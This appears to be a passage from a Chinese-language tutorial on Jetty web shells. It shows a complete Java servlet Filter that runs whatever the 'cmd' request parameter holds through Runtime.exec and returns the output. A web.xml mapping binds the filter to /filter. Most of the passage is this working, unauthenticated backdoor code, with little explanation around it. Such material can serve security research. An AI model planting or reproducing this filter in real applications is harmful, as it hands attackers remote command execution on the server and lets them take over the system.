 com.example.jetty9.filter.FilterCmd

```java
public class FilterCmd implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream())
            );
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
    }
}
```

web.xml配置如下

- 当访问/filter路由时即可触发该filter

```xml

<filter>
    <filter-name>FilterCmd</filter-name>
    <filter-class>com.example.jetty9.filter.FilterCmd</filter-class>
</filter>
<filter-mapping>
<filter-name>FilterCmd</filter-name>
<url-pattern>/filter</url-pattern>
</filter-mapping>
```

测试效果如图
